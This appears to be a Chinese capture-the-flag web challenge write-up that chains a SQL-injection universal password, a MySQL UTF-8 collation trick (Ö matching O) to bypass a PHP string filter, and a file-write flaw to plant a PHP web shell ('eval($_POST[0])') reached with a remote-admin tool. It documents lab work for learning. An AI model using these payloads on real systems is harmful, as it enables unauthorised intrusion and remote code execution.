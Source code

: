 ```yaml
---
title: Look
date: 2018-03-19 00:00:02
categories:
- CTF/Web
tags: 百度杯十一月 MYSQL黑魔法
--- 
```


## .viminfo

其实直接扫目录就能得到.viminfo，但是题目是这样出的：

访问index.php的头有X-HT: verify，HT当然就是hint啦，尝试在各种地方加入verify参数，最后通过GET提交verify=1有不同的回显。如果值超过四位提示太长，爆破1-4位无果，最终使用`verify='=0%23 `万能密码得到viminfo的提示

访问.viminfo得到提示`5211ec9dde53ee65bb02225117fba1e1.php.backup~~~`

## mysql的UTF-8黑魔法

```php
<?php
$con = mysql_connect('localhost','root','');
mysql_query("set names utf8");
mysql_select_db("ctf");
if($_SERVER["REMOTE_ADDR"]=='8.8.8.8'){
    $name = addslashes($_GET['usern3me']);
}
else{
    if(stripos($_GET['usern3me'],'Bctf2O16')!==false){
        $name = 'FUCK';
    }
    else{
        $name = addslashes($_GET['usern3me']);
    }
}
echo 'hello '.$name;
$sql = "select * from admin where name='$name'";
$result = mysql_query($sql);
$num = mysql_num_rows($result);
if($num>0){
    echo '<br>next ***.php';
}
?>
```

很显然题目的意思是数据库中有name=Bctf2O16的记录，所以在php中过没有这个字符串的判断，在mysql中判断有这个字符串，即需要输入非 Bctf2O(大写O)16但进入数据库查询又当作是Bctf2O16的一个字符串。但是，mysql设置为UTF-8加上php处理GET参数的addslashes的函数，无法进行宽字节注入。这里用到了一个mysql的特性：

> MYSQL 中 utf8_unicode_ci 和 utf8_general_ci 两种编码格式, utf8_general_ci不区分大小写, Ä = A, Ö = O, Ü = U 这三种条件都成立, 对于utf8_general_ci下面的等式成立：ß = s ，但是，对于utf8_unicode_ci下面等式才成立：ß = ss 。
可以看到大写O和Ö是相等的

于是提交?usern3me=Bctf2Ö16，用浏览器访问，burp提交不成功，可能是因为burp的字符集是GBK吧。得到下一个文件：c3368f5eb5f8367fd548b228bee69ef2.php

## getshell

```php

<?php
if(isset($_GET['path']) && isset($_GET['filename'])){
    $path = $_GET['path'];
    $name = "upload/".$_GET['filename'];
}
else{
    show_source(__FILE__);
    exit();
}
if(strpos($name,'..') > -1){
    echo 'WTF';
    exit();
}

if(strpos($path,'http://127.0.0.1/') === 0){
    file_put_contents($name,file_get_contents($path));
}
else{
    echo 'path error';
}
?>
```

- 这里在filename处过滤了`..`又在前拼接上了`upload/`字符串，无法跳出这个目录
- path要求了必须以`http://127.0.0.1/`开头，想到了刚才那个hello usern3me的地方

于是构造：

```
/c3368f5eb5f8367fd548b228bee69ef2.php?filename=1.php&path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php @phpinfo();?>
```

访问/upload/1.php发现`<?php`被截断。其实这里空格应该被url编码，而且应该是两次，因为usern3me这个参数实际上是经过两次url访问才传给处理的页面，第一次是我们通过浏览器的访问，第二次是讲path作为参数通过file_get_contents()访问。

所以构造：

```
/c3368f5eb5f8367fd548b228bee69ef2.php?filename=1.php&path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php%2520@phpinfo();?>
```

访问/upload/1.php发现打印phpinfo，构造木马，菜刀连接即可：

```
/c3368f5eb5f8367fd548b228bee69ef2.php?filename=1.php&path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php%2520eval($_POST[0]);?>
```